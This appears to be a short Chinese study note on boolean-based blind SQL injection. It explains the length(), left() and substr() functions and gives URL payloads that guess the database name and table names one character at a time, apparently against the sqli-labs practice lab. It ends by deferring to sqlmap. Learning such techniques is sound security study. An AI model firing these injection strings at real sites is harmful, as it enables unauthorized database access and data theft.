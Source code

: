 # sql盲注

<br><br>

写在前面：盲注可以使用逻辑符and来对我们的指令进行判断
如： /?id=1' and length(database())=8-- #

<br>

````
常用判断语句和函数
length(database())=8 判断当前所在库的长度为8
left()函数返回str字符串中最左边的长度字符。如果str或length参数为NULL，则返回NULL值 如：left(str,length)：
substr()函数：从指定位置开始的输入字符串返回一个子字符串。SUBSTR(字符串, 起点);
````

<br>

## 布尔盲注

<br>

### 第一步：寻找注入点（略）

<br>

### 第二步：判断数据库长度，然后猜测数据库名字

判断当前所在库的长度为8： ?id=1' and length(database())=8--+

然后可以开始进行数据库的猜测了。

猜测数据库第一位： ?id=1' and left(database(),1)>'a' --+ 以此类推可以获得库名

获得库名后可以查表了：?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1))>80-- #

上述可以在database()对应的库中查询数据库的第一个表的第一个字符。其中的table_schema 可以写成 ='security'。

<br>



### 写不下去了，直接用sqlmap梭哈就完事了，折腾这么多闹麻了

<br>
